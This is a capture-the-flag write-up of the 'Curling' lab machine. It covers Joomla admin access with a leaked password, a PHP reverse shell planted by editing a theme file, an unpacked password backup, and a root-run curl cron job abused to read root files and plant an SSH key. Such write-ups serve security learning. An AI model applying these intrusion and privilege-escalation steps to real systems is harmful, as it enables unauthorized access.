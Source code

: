 # Curling Writeup

Oh boy, curling. This is the first box that I failed to get root on :(. On the bright side, I've learned a lot from others' writeups on this box.

This writeup will still include how I rooted the box, given additional information from other writeups. I still rooted the box in the end, for the educational value.

> I should also start taking screenshots when I'm working through these boxes. When I was writing this writeup, I found it difficult to demonstrate what I was seeing on webpage.

## Enumeration

### Nmap Scan

`nmap -sC -sV -sT 10.10.10.150`

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-01 17:13 PDT
Nmap scan report for 10.10.10.150
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.50 seconds
```

No funky services here.

### Enumerating HTTP

`gobuster -u 10.10.10.150 -w /usr/share/dirb/wordlists/common.txt`

Curling:80/

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.150/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2019/04/11 17:15:29 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/administrator (Status: 301)
/bin (Status: 301)
/cache (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
=====================================================
2019/04/01 17:16:57 Finished
=====================================================
```

The actual website itself is some sort of fan-page dedicated to the sport of curling. There appears to be some sort of login panel as well.

The most interesting discovery from gobuster would appears to be `/adminisrator`, which when browsed to, reveals an administrative login portal. 

## Getting User

Using inspect element, there is a comment at the bottom of the page, 

```html 
<!-- secret.txt -->
```

Browsing to `10.10.10.150/secret.txt` gives us a cryptic string: `Q3VybBluZzIwMTgh`. After we base64 decode it, it gives us some sort of password.

```
Curling2018!
```

It seems like it would most likely be the password for the administrator panel found earlier. We still don't have a username however.

Looking through some of the blog posts, one of the posts is signed with a name; `Floris`. Upon trying this with the password we just found, we successfully login as an administrator.

### PHP reverse shell

On the site, the first thing that I notice is an images tab, where files can be uploaded. On the same tab are administrative options for allowing what kind of files to be uploaded. However, on attempting to upload a php reverse shell, I still get `File Type Not Allowed` error message. Looking through Joomla documentation, Joomla automatically detects php code on upload.

> Note: I'm using [pentest monkey's](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) php reverse shell

Looking deeper into the site, there is a themes panel where the appearance of the blog can be modified. Luckily, it appears that the themes are written in php. By writing over one of the theme files with the reverse shell's code and 'previewing' it, we get a shell back! However, we are logged in as user `www-data` and can't read `user.txt`, but there is another file that looks interesting: `password_backup`.

### Decrypting `password_backup`

`password_backup` is a heavily compressed file that contains the user password for `floris`. Reading it gives us some sort of hexdump:

```
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

Running `xxd -r password_backup` gives us another file which its output is that of a bzip file. This process of 'decrypting' goes on for a couple more iterations before we get our password.txt.

Full process

1. `xxd -r password_backup decrypted`
2. `bzip2 -d decrypted.bz2`
3. `gzip -d decrypted.gz`
4. `bzip2 -d decrypted.bz2`
5. `tar -xf decrypted.tar`
6. `cat password.txt`

Reading `password.txt` gives us an output of `5d<wdCbdZu)|hChXll` of file type ASCII Text: Looks like our user password.

Since ssh is open, sshing into the machine with `floris` and `5d<wdCbdZu)|hChXll` gives us a successful login. Navigating to the home directory, we can now read `user.txt`!

`65d...`

## Getting Root

There is another directory in `floris`'s home called `admin-area`.

```
admin-area
|-- input
|-- report
```
The file `input` contains `url = "http://127.0.0.1"`, while report contains the html of the homepage of the curling site. What I knew here was that there was some kind of process running `curl` on `input`, and spitting out `report`. This is where I didn't realize that `curl` works on local files.

I also verified that the process was running as root using [pspy](https://github.com/DominicBreuker/pspy), a handy tool for watching which processes write to what.

Command:
```
./pspy32s -d admin_area
```

Which gives us:

```
2019/04/01 22:24:27 CMD: UID=0    PID=1      | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

`input` simply just needs to be modified to:

```
url = "file:///root/root.txt"
```

Of course, that seems like a very underwhelming way of getting the root flag, especially since I didn't figure it out in time. What about a root shell?

### Getting a Root Shell

I really liked [Simon Lemire's](https://snowscan.io/htb-writeup-curling/) solution for getting a root shell.

By adding our ssh key to `/root/.ssh/authorized_keys`, you can login as root through ssh. Its as simple as hosting our ssh pubkey, and modifying `input` to fetch our key and add it to `authorized_keys`. A lot more satisfying than just reading `root.txt`!

`82c...`
